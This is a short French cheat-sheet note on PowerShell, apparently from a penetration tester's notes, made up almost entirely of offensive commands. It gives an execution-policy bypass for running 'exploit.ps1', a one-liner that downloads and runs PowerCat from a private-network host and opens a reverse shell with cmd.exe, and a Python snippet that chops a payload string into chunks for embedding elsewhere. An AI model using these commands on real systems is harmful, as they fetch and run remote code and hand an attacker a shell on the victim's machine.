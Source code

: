 # PowerShell - PSH

PowerShell est un langage de programmation orienté objet exécuté à partir du Dynamic Language Runtime (DLR) dans `.NET`

Contournement des arguments

```sh
powershell -ex bypass -File exploit.ps1
```


```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.128:8080/PowerCat.ps1');powercat -c 192.168.45.128 -p 4443 -e cmd.exe"
```

---
Fichier `split.py`

```python
str = "powershell ..."
n = 50
for i in range(0, len(str), 50):
	print "payload = payload + " + '"' + str[i:i+n] + '"'

# python split.py | xclip -selection clipboard
```

